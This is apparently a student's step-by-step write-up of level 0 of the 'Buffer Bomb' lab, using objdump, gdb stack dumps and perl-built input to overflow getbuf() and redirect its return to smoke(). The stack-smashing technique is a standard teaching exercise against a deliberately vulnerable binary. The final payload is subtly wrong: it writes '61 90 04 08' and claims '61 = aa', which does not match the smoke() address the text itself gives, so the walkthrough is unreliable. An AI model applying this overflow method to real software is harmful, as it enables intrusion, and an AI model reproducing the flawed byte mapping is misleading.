 Buffer Bomb
===========
5 phases where you exploit the getbuf() function in C and manipulate the outcome of the bufbomb executable file.

<h1>Level 0</h1>

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

<h3>1. locate the address of the function ```Smoke()```</h3>

   To find the address of function ```Smoke()``` type:
   ```unix> objdump -d bufbomb | less```

   My address for ```Smoke()``` = 080490aa <smoke>:

   <b>WRITE DOWN the address for ```Smoke()``` as you will be using it later</b>


<h3>2. calculate the length of the string size to cause an overflow</h3>
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) run -u quinnliu
   (gdb) break *getbuf+17
   (gdb) disas
   (gdb) info registers
   ```

   Gives you:

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) info registers
   eax            0x45789ae        72845742
   ecx            0x45789ae        72845742
   edx            0x3c1048 3936328
   ebx            0x0      0
   esp            0x55683318       0x55683318
   ebp            0x55683350       0x55683350
   esi            0x55686018       1432903704
   edi            0xc60    3168
   eip            0x8048c0a        0x8048c0a <getbuf+6>
   eflags         0x216    [ PF AF IF ]
   cs             0x23     35
   ss             0x2b     43
   ds             0x2b     43
   es             0x2b     43
   fs             0x0      0
   gs             0x63     99
   (gdb)
   ```

   Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

   <b>WRITE DOWN %ebp address as you will be using it later. In my case:</b>

   %ebp = 0x55683350 

   getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

   Now quit out
   ```
   (gdb) q
   A debugging session is active.

           Inferior 1 [process 29088] will be killed.

   Quit anyway? (y or n) y
   ```

   Now create a test input file called "hex" and type a few commands
   ```
   unix> perl -e 'print "A"x32 '> hex
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex
   (gdb) x/20x $esp
   (gdb) disas
   ```

   Gives you:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
   0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
   0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   ```

   Next type these commands:
   ```
   (gdb) continue
   (gdb) disas # notice that we are now at <+17>
   (gdb) x/20x $esp
   ```

   Gives you:
   ```
   (gdb) continue
   Continuing.

   Breakpoint 2, 0x08048c15 in getbuf ()
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
      0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
   => 0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   ```

   We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

   startingAddressOfBufVariable = 0x55683328
   %ebp = 0x55683350 # I told you to write this down earlier

   buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
               = 0x55683350   +4 - 0x55683328
               # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
               = 2C # in hexadecimal = 44 bytes # in decimal

   We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

   44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

   Now quit out of gdb with ```q``` command and type:


<h3>3. create the buffer overflow string </h3>

   ```
   bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
   bash-4.1$ ls
   bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
   bash-4.1$ less hex2
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

   Now use hex2 as your new input in gdb:
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex2
   (gdb) x/20x $esp
   (gdb) continue
   (gdb) x/20x $esp 
   ```

   On the second call of ```(gdb) x/20x $esp``` you will see:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
   0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
   (gdb)
   ```

   Understand that our input file is:
   ```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
   where A = 41, B = 42, C = 43, & D = 44

   So DDDD = 0x44444444

   After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```Smoke()```!!!!!

<h3>4. force the function getbuf to return to fucntion ```Smoke()``` instead of returning the value 1.</h3>

   Find where you wrote down the address of ```Smoke()``` earlier. Mine is = 080490aa

   Because my machine is little endian the least significant byte is first.

   So 
   ```08 04 90 aa``` => ```aa 90 04 08```

   Now exit out of gdb:
   ```
   bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
   ```
   WHERE 61 = aa

   Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

   Type:
   ```./hex2raw < hex3 > raw```

<h3>5. Almost there!!!!!!!!!!</h3>

   Now actually give your "raw" file as input to the Buffer Bomb:
   ```./bufbomb -u quinnliu < raw```

   And you should get the following output:
   ```
   Userid: quinnliu
   Cookie: 0x2d8cc70c
   Type string:Smoke!: You called smoke()
   VALID
   NICE JOB!
   ```